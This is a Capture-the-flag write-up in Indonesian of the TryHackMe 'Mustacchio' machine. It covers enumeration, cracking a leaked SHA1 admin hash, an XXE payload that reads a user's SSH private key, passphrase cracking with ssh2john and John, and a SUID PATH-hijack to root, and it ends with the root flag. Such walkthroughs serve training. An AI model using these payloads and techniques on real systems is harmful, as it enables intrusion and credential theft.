










# Mustacchio Writeup

**Platform:** TryHackMe  
**Difficulty:** Easy  
**Tags:** XXE, SSH Key, Password Cracking, SUID, PATH Hijacking  

---

## 🧾 Overview

Mesin ini menggabungkan beberapa vulnerability yg saling terhubung, mulai dari file exposure, XML External Entity (XXE), hingga privilege escalation melalui PATH hijacking.

Goal:
- Get user flag
- Get root flag


---

## Enumeration

Melakukan scanning awal untuk melihat service yang berjalan.

Ditemukan web service dari hasil scan Nmap:
```bash
nmap -A 10.49.135.54 -p-
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-23 02:52 EDT
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.40% done
Stats: 0:03:21 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 02:56 (0:00:12 remaining)
Nmap scan report for 10.49.135.54
Host is up (0.083s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
| http-robots.txt: 1 disallowed entry 
|_/
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
|_http-server-header: nginx/1.10.3 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.8 - 3.16 (91%), Linux 3.10 - 3.13 (90%), Linux 3.13 (90%), Linux 4.4 (90%), Linux 5.4 (88%), Crestron XPanel control system (86%), Linux 4.15 - 5.19 (86%), Android 10 - 12 (Linux 4.14 - 4.19) (85%), HP P2000 G3 NAS device (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   80.83 ms 192.168.128.1
2   ...
3   81.53 ms 10.49.135.54

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 221.54 seconds
```

Hasil Scan Direktori Menggunakan Gobuster:
```bash
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.49.135.54
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/custom               (Status: 301) [Size: 313] [--> http://10.49.135.54/custom/]
/fonts                (Status: 301) [Size: 312] [--> http://10.49.135.54/fonts/]
/images               (Status: 301) [Size: 313] [--> http://10.49.135.54/images/]
/index.html           (Status: 200) [Size: 1752]
/robots.txt           (Status: 200) [Size: 28]
/server-status        (Status: 403) [Size: 277]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

## Credential Discovery

Pada Port 80 di Path http://10.49.135.54/custom/js/ Ditemukan file dengan nama users.bak
<p>
  
</p>

File `.bak` dianalisa menggunakan: Strings
<p>
  
</p>
Output: admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
*Hash diidentifikasi sebagai SHA1*

Crack menggunakan: JohnTheRipper
<p>
  
</p>
Hasil Output memberikan plaintext = admin : bulldog19

Selanjutnya, saya mengakses web menggunakan port 8765 untuk tahap Exploitasi dan menggunakan creds admin:bulldog19 untuk login pada admin panel

## Exploitation — XXE Injection

Halaman login pada target di port 8765
<p>
  
</p>

Halaman utama pada target di port 8765
<p>
  
</p>

<p>
  
</p>
Ditahap ini, Saat melakukan inspeksi terhadap sourcecode, saya menemukan bahwa fitur komentar menggunakan XML sebagai format input.
tapi yg lebih menarik adalah adanya komentar developer:

"Barry, you can now SSH in using your key!"

Komentar ini menjadi petunjuk kuat bahwa terdapat SSH key yang tersimpan di server. Mengingat aplikasi memproses XML, saya mulai mempertimbangkan kemungkinan adanya celah XXE.
Jika berhasil dieksploitasi, XXE dapat digunakan untuk membaca file lokal, termasuk SSH private key milik user Barry.

Payload:
```bash
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">
]>
<comment>
  <name>&xxe;</name>
  <author>test</author>
  <com>test</com>
</comment>
```
Output:
<p>
  
</p>

## SSH Access
<p>
  
</p>

Key yang didapat ternyata encrypted, convert ke format crackable:

<p>
  
</p>

```bash
ssh2john id > hash_rsa.txt 
```
Command dengan tool ssh2john digunakan untuk mengekstrak hash dari SSH private key, sehingga dapat diproses oleh JohntheRipper.

Selanjutnya dilakukan proses cracking menggunakan wordlist:

```bash
john hash_rsa.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
Command dengan tool JohntheRipper akan mencoba mencocokkan hash dengan kata-kata yang ada di wordlist untuk menemukan passphrase yang digunakan.
Hasilnya:
```bash
urieljames
```
Passphrase ini kemudian digunakan untuk membuka private key dan melakukan login via SSH sebagai user barry
<p>
  
</p>

## Post Exploitation Enumeration
sekarang, saya bisa melihat flag user.txt yg berada di path /home/barry
<p>
  
</p>

Next, saya akan enumerasi privilege escalation menggunakan command:
```bash
find / -perm -4000 -type f 2>/dev/null
```
disini saya akan sedikit memberi penjelasan maksud dri command ini \
find = temukan \
/ = mulai dari folder akar (/) dan seluruh sub direktori nya (seluruh sistem) \
-perm -4000 = mencari file yg memiliki izin 4000, angka 4 menunjukan bit SetUID yg artinya ketika file ini dijalankan, ia akan berjalan dengan hak akses pemilik filenya *root* \
-type f = mencari hanya *file* \
2>/dev/null = berfungsi untuk buang pesan error (agar output tidak noisy)

Output memberikan:
```bash
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```
Ditemukan binary mencurigakan:
```bash
/home/joe/live_log
```
file ini merupakan file ELF yg bisa saya jalankan menggunakan command *./* tpi setelah menjalankannya saya hanya mendapat teks2 aneh yg tidak dapat dibaca oleh manusia, untuk itu saya menggunakan command
```bash
strings live_log
```
dan mendapatkan output:
```bash
barry@mustacchio:/home/joe$ strings live_log
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
printf
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8060
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
demo.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
```

## Privilege Escalation (PATH Hijacking)

Dari hasil analisis terhadap binary, ditemukan bahwa program menjalankan perintah berikut:
```bash
tail -f /var/log/nginx/access.log
```
---
Tapi, perintah tersebut dipanggil tanpa menggunakan absolute path (misalnya /usr/bin/tail).
ini membuka kemungkinan terjadinya PATH Hijacking, di mana sistem akan mencari executable berdasarkan urutan direktori pada environment variable $PATH.
Untuk memanfaatkan celah ini, saya membuat executable palsu bernama tail di direktori /tmp:
```bash
barry@mustacchio:/$ cd /tmp
barry@mustacchio:/tmp$ ls
barry@mustacchio:/tmp$ echo "/bin/bash" > tail
barry@mustacchio:/tmp$ ls
tail
```
Kemudian, saya modifikasi environment variable $PATH agar direktori /tmp diprioritaskan:
```bash
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ chmod 777 tail
```
Dengan konfigurasi ini, ketika binary memanggil tail, sistem akan mengeksekusi file /tmp/tail (yang berisi /bin/bash) alih-alih binary asli.


dan terakhir saya hanya tinggal menjalankan binary live_log yg ada di /home/joe/live_log menggunakan perintah
```bash
barry@mustacchio:/home/joe$ ./live_log
```
Hasilnya, saya berhasil mendapatkan shell sebagai root
Output:


---
root flag:
```bash
root@mustacchio:/home/joe# cat /root/root.txt
3223581420d906c4dd1a5f9b530393a5
```

dan misi selesai!


